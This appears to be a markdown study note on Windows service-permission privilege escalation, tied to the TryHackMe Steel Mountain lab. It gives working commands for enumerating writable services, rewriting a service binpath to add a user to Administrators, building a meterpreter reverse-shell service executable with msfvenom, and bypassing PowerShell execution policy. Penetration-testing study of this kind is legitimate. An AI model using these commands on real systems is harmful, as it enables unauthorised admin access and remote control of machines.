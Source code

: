 # Escalation Path: Service Permissions (Paths)

### Escalation via Binary Paths

Find writable binpaths with PowerUp `Invoke-AllChecks` or using Sysinternals accesschk64.exe

`accesschk64.exe -wuvc Everyone *`

- `-w` Show write access only
- `-u` Suppress errors
- `-v` Verbose
- `-c` Display the service name
 
**PowerUp**  

![PowerUp](./pictures/binpath-powerup.png)

**accesschk64**  
  
![Accesschk](./pictures/binpath-accesschk64.png)

Run accesschk64.exe against any discovered services for more detail

`accesschk64.exe -wuvc servicename`

![daclsvc](./pictures/binpath-daclsvc-privs.png)

We can change the binpath with `sc config` to add a user to the Adminstrators localgroup then start the 
service. As this service runs as LocalSystem our user will be added to the group

`sc config daclsvc binpath= "net localgroup administrators user /add"`

`sc start daclsvc`

Starting the service gives an error but the user is added to the Administrators group

![Exploit](./pictures/binpath-daclsvc-exploit.png)

### Escalation via Unquoted Service Paths

If a service path is unquoted and contains spaces a malicious executable can be created to take advantage of 
how Windows processes the path.

For example, when looking for an exe at C:\Program Files\My Program\myprogram.exe it will check 
C:\Program.exe, C:\Program Files.exe, C:\Program Files\My.exe, C:\Program Files\My Program.exe, 
C:\Program Files\myprogram.exe

We can generate a malicious service executable with msfvenom and abuse the unquoted service path for 
unquotedsvc, C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 -f exe-service -o common.exe`

Upload the malicious executable to the target and place it in C:\Program Files\Unquoted Path Service

When we start the service, the meterpreter reverse shell will execute

### Challenge Overview

THM Steel Mountain - https://tryhackme.com/room/steelmountain
Full write up here - https://github.com/lukepatterson31/thm/blob/main/write-ups/steel-mountain/steel-mountain.md

Initial access with CVE-2014-6287

Add Invoke-AllChecks at the bottom of the PowerUp.ps1 file to be able to execute it directly in case of a 
frozen shell

`powershell -ep bypass PowerUp.ps1`

Alternatively, migrate to a 64bit process like explorer.exe, load the powershell module and import PowerUp.ps1
and run Invoke-AllChecks

Privilege escalation through unquoted service path
